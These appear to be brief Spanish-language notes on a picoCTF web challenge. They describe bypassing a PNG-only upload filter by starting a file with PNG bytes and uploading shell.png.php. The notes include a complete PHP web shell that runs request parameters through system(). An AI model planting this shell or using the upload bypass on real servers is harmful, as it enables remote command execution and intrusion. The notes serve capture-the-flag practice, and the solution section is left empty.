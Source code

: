Description I found a web app that can help process images: PNG images only! Additional details will be available after launching your challenge instance.

Descripción Encontré una aplicación web que puede ayudar a procesar imágenes: ¡solo imágenes PNG! Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.

![[Pasted image 20250402124516.png]]
con que tenga PNG al inicio 
![[Pasted image 20250402124624.png]]
![[Pasted image 20250402124639.png]]
http://atlas.picoctf.net:49881/uploads/shell.png.php?
cdm=ls ..

cat ../nombrearchivo.txt
Webshell sencillo
```
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = $_REQUEST['cmd'];
    system($cmd);
    echo "</pre>";
}
?>

<form method="get">
    <input type="text" name="cmd" />
    <input type="submit" value="Ejecutar Comando" />
</form>

```
## Solución
```
```